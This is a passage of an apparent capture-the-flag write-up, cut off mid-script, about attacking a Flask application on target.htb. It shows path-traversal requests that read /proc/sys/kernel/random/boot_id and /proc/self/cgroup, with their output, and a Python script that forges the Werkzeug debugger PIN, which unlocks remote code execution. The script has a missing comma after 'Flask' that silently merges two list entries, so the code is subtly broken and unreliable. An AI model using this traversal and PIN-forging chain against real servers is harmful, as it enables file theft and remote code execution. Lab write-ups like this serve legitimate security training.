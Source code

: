 I converted it to decimal so I could use it as the value for `node` in the script.

```python
>>> print(0x0242ac110009)
2485377892361
```

Next, I needed the value for the machine ID. This was the concatenation of values from two files.


```http
GET /uploads/..//proc/sys/kernel/random/boot_id HTTP/1.1
Host: target.htb
```

```
7de8344f-479d-402f-aeae-23e4f0c9ab1e
```
And

```http
GET /uploads/..//proc/self/cgroup HTTP/1.1
Host: target.htb
```

```
12:freezer:/docker/c8ca454d258582d3e11e469d822a538f8a0aa4a96bcfd461cb3591ada9600164
11:cpuset:/docker/c8ca454d258582d3e11e469d822a538f8a0aa4a96bcfd461cb3591ada9600164
```

With this data, I had my script ready to generate the PIN.

```python
import hashlib
from itertools import chain


node = '2485377892361'

def get_machine_id():
    linux = b""
    # GET /uploads/..//proc/sys/kernel/random/boot_id HTTP/1.1
    linux = b"7de8344f-479d-402f-aeae-23e4f0c9ab1e"
    # GET /uploads/..//proc/self/cgroup HTTP/1.1
    linux += b"c8ca454d258582d3e11e469d822a538f8a0aa4a96bcfd461cb3591ada9600164"
    return linux

def get_pin_and_cookie_name():
    pin = ""
    rv = None
    num = None

    # This information only exists to make the cookie unique on the
    # computer, not as a security feature.
    probably_public_bits = [
        'root',
        'flask.app',
        'Flask'
        '/usr/local/lib/python3.10/site-packages/flask/app.py'
    ]

    # This information is here to make it harder for an attacker to
    # guess the cookie name.  They are unlikely to be contained anywhere
    # within the unauthenticated debug page.

    private_bits = [node, get_machine_id()]

    h = hashlib.sha1()
    for bit in chain(probably_public_bits, private_bits):
        if not bit:
```
